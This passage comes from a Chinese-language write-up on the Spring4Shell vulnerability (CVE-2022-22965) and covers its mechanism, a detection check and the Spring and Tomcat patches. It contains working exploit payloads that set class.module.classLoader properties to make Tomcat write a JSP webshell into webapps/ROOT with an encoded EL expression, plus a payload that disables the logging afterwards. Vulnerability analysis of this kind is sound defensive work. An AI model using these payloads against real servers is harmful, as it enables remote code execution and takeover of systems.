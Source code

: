 这些payload可以分开发送，也可以合并在一次请求中，使用panda师傅推荐的EL表达式方法，就不需要header了
```
class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT
class.module.classLoader.resources.context.parent.pipeline.first.prefix=shell
class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp
class.module.classLoader.resources.context.parent.pipeline.first.pattern=%24%7B%22%22%5Bparam%2Ea%5D%28%29%5Bparam%2Eb%5D%28param%2Ec%29%5Bparam%2Ed%5D%28%29%5Bparam%2Ee%5D%28param%2Ef%29%5Bparam%2Eg%5D%28param%2Eh%29%7D
class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=1
```
![](https://img-blog.csdnimg.cn/df55486496ba45ccbffbd05fd51fed65.png)


在利用成功之后生成的文件会不断写入新内容，存在影响系统业务的可能，我们如果不想一直记录日志，可以通过修改tomcat配置文件，关闭日志记录功能，payload如下：
```
class.module.classLoader.resources.context.parent.pipeline.first.enabled=false
```
漏洞的无害探测：
`class.module.classLoader.DefaultAssertionStatus=x`，当x为 0、1 时正常，其他值的时候，返回400，说明就有漏洞

## 漏洞修复
Spring 的补丁为：[https://github.com/spring-projects/spring-framework/commit/002546b3e4b8d791ea6acccb81eb3168f51abb15](https://github.com/spring-projects/spring-framework/commit/002546b3e4b8d791ea6acccb81eb3168f51abb15)

当Java Bean的类型为`java.lang.Class`时，仅允许获取name以及Name后缀的属性描述符，相当于直接白名单了
![](https://img-blog.csdnimg.cn/1d4a5bdc13044d91ac4bda25e851acb1.png)

Tomcat的补丁为：[https://github.com/apache/tomcat/commit/8a904f6065080409a1e00606cd7bceec6ad8918c](https://github.com/apache/tomcat/commit/8a904f6065080409a1e00606cd7bceec6ad8918c)

对getResource()方法的返回值做了修改，直接返回null
![](https://img-blog.csdnimg.cn/a0eea0aed8384c039a915d972a42fa13.png)


参考：
[spring rce 从cve-2010-1622到CVE-2022-22965 篇一](https://xz.aliyun.com/t/11280)
[SpringMVC框架任意代码执行漏洞(CVE-2010-1622)分析](http://rui0.cn/archives/1158)
[关于Spring framework rce（CVE-2022-22965）的一些问题思考](https://mp.weixin.qq.com/s/plFLE8e0-Fc2tHJ4HaiSSw)
[Spring4Shell简析（CVE-2022-22965）](https://zhuanlan.zhihu.com/p/498778896)
[Spring 远程命令执行漏洞（CVE-2022-22965）原理分析和思考](https://paper.seebug.org/1877/)
[从零开始，分析Spring Framework RCE](http://tttang.com/archive/1532/)

